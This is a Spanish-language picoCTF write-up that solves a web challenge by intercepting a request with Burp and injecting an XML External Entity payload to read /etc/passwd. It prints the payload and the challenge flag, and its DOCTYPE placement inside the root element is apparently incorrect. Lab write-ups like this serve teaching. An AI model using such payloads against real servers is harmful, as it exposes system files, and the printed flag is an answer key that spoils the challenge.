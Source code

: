 ## Objetivo
The web project was rushed and no security assessment was done. 
Can you read the /etc/passwd file?
## Solución
- ##### Al entrar en la instancia, nos aparecen distintas universidades con un botón para ver los destalles, lo que haremos será interceptar esas requests con "BURP", y obtendremos la siguiente estructura general de las requests.
``` html
POST /data HTTP/1.1
Host: saturn.picoctf.net:51928
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://saturn.picoctf.net:51928/
Content-Type: application/xml
Content-Length: 127
Origin: http://saturn.picoctf.net:51928
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?>
	<data>
		<ID>
			1, 2, 3
		</ID>
	</data>
```

- ##### Una vez observada la estructura general de las requests, con el mismo "BURP", mandaremos esa estructura al Repeater, donde haremos una inyección XEE (XML External Entity) para acceder a la ruta "/etc/passwd".
``` html
<?xml version="1.0" encoding="UTF-8"?>
	<data>
	<!DOCTYPE foo [<!ENTITY hacked SYSTEM "/etc/passwd"> ]>
		<ID>
			&hacked;
		</ID>
	</data>
```

- ##### Y en el response que se genera, obtenemos la bandera.
```
Flag: picoCTF{XML_3xtern@l_3nt1t1ty_0dcf926e}
```
## Notas Adicionales
- XML External Entity es una vulnerabilidad presente en las aplicaciones que analizan entradas XML.
## Referencias
- [PicoCTF](https://play.picoctf.org)